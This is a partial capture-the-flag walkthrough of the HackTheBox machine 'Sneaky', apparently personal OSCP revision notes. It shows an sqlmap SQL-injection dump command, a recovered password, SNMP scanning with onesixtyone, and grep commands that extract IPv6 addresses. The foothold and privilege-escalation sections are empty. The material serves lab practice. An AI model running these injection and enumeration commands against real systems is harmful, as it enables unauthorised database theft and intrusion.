




# Sneaky Walkthrough
Name: Sneaky
Date:  
Difficulty: Medium 
Goals: OSCP revision, BoF, learn about IPv6 with Ippsec - do the intended way.
Learnt: IPv6

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.

	
## Exploit

The site is vulnerable to SQL injection a subject that I am familiar with, but I have not done I much as want to.




Ran sqlmap with:
```bash
sqlmap -r sqlmapwhileippsectalksipv6 -p pass --dbms mysql --level 4 --risk 3 --dump
```

While Ippsec talks IPv6 


`sup3rstr0ngp4ssf0r4d`

Check out IPv6 Defined in Archive!

Basically there is unintended way to do this machine using IPv6 using that id\_rsa with the external HackTheBox network of the machine.

...Intended way, do your UDP nmap scans!
While I waited for my UDP scans to run I tried some SNMP recon.
```bash
onesixtyone 10.129.1.179 public
Scanning 1 hosts, 1 communities
10.129.1.179 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
```
You could also stalk the creator of the CTF who made a [IPv6 enumeration tool](https://github.com/trickster0/Enyx/blob/master/enyx.py) or you could just:
```bash
cat snmpwalk-output | grep iso.3.6.1.2.1.4.34.1.3.2.16|cut -d "." -f 13-28 | cut -d " " -f 1
# Output will be in the format by line 
# Loopback
# Link-Local
# Unique-Local
cat -n snmpbulkoutput | grep "inetCidrRouteIfIndex.ipv6"
```
## Foothold

## PrivEsc

      
